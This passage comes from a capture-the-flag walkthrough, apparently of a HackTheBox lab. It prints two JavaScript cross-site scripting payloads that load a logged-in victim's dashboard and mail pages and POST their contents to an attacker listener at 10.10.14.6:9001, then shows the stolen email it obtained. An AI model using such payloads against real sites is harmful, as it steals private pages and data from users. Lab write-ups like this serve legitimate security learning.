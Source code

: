 
    var dashboardreq = new XMLHttpRequest();    
    dashboardreq.onreadystatechange = function() {              
      if (dashboardreq.readyState == 4) {                       
        var exfilreq = new XMLHttpRequest();                    
        exfilreq.open("POST", "http://10.10.14.6:9001/", false);                                                      
        exfilreq.send(dashboardreq.response);                 
      }     
    };    
    dashboardreq.open('GET', '/dashboard.php', false);    
    dashboardreq.send();  



After a minute, I have another page that shows my email as well as one
more from "Jeremy Taint":

![](/img/image-20210824120713361.png)

The link on the first one is `/read-mail.php?id=1`, and the subject line
is interesting.

### Read Mail

The same payload as above, but with a different initial URL:



    var mail1req = new XMLHttpRequest();    
    mail1req.onreadystatechange = function() {    
      if (mail1req.readyState == 4) {    
        var exfilreq = new XMLHttpRequest();    
        exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
        exfilreq.send(mail1req.response);    
      }    
    };    
    mail1req.open('GET', '/read-mail.php?id=1', false);    
    mail1req.send();    



In the resulting page, there's a message:



    ...[snip]...
    <div class="mailbox-read-message">
        <p>Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks.</p>
    </div>                             
    <!-- /.mailbox-read-message -->  
    ...[snip]...



I'll add s3-testing.stacked.htb to `/etc/hosts`. There is a service
running there:

